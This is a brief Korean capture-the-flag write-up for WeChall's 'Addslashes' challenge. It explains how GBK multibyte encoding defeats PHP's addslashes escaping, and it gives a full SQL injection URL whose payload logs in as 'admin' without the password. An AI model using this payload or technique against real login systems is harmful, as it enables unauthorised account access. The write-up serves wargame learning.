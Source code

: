 # [WeChall] Addslashes - Writeup

## SQL Injection

언뜻 보면 `addslashes` 함수 덕에 SQLi가 불가능해보인다.

하지만 자세히보니 `GBK` 라는 멀티바이트 언어셋을 사용하고 있다!

(국내 워게임에선 `GBK` 대신, 주로 `EUC-KR` 같은 언어셋이 사용되어 출제되곤 한다.)

e.g. `%aa%27` -> `%5c%aa%27` = `�'`

위 예제처럼, `addslashes` 함수가 `'`를 필터링 한답시고, 그 앞에 넣어준 `\`가 `%aa`와 결합하여 알 수 없는 문자(`�`)가 되어 버린다.

덕분에 `'`는 살아남게 되어 SQLi가 가능해진다.

[http://www.wechall.net/tr/challenge/addslashes/index.php?username=%aa%27||username=0x61646D696E%23&password=123&login=%E6%B3%A8%E5%86%8C](http://www.wechall.net/tr/challenge/addslashes/index.php?username=%aa%27||username=0x61646D696E%23&password=123&login=%E6%B3%A8%E5%86%8C)